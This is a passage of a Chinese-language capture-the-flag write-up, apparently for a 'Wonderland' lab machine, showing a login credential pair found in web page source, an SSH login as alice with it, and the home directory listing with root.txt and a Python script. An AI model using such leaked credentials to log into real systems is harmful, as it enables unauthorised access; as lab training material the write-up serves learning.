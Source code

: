 # 在上面页面查看网页源代码发现一个类似登录凭证的东西
```
alice:HowDothTheLittleCrocodileImproveHisShiningTail
```


# 成功登录alice的ssh账号
```
┌──(root💀kali)-[~]
└─#  ssh alice@10.10.86.51                                                                                                                                                                                                           130 ⨯
alice@10.10.132.163's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Sep 16 08:30:29 UTC 2021

  System load:  0.0                Processes:           84
  Usage of /:   18.9% of 19.56GB   Users logged in:     0
  Memory usage: 15%                IP address for eth0: 10.10.132.163
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.


Last login: Mon May 25 16:37:21 2020 from 192.168.170.1
alice@wonderland:~$ pwd
/home/alice
alice@wonderland:~$ ls
root.txt  walrus_and_the_carpenter.py
alice@wonderland:~$ ls -alh
total 40K
drwxr-xr-x 5 alice alice 4.0K May 25  2020 .
drwxr-xr-x 6 root  root  4.0K May 25  2020 ..
lrwxrwxrwx 1 root  root     9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 alice alice  220 May 25  2020 .bash_logout
-rw-r--r-- 1 alice alice 3.7K May 25  2020 .bashrc
drwx------ 2 alice alice 4.0K May 25  2020 .cache
drwx------ 3 alice alice 4.0K May 25  2020 .gnupg
drwxrwxr-x 3 alice alice 4.0K May 25  2020 .local
-rw-r--r-- 1 alice alice  807 May 25  2020 .profile
-rw------- 1 root  root    66 May 25  2020 root.txt
-rw-r--r-- 1 root  root  3.5K May 25  2020 walrus_and_the_carpenter.py
alice@wonderland:~$ 
```

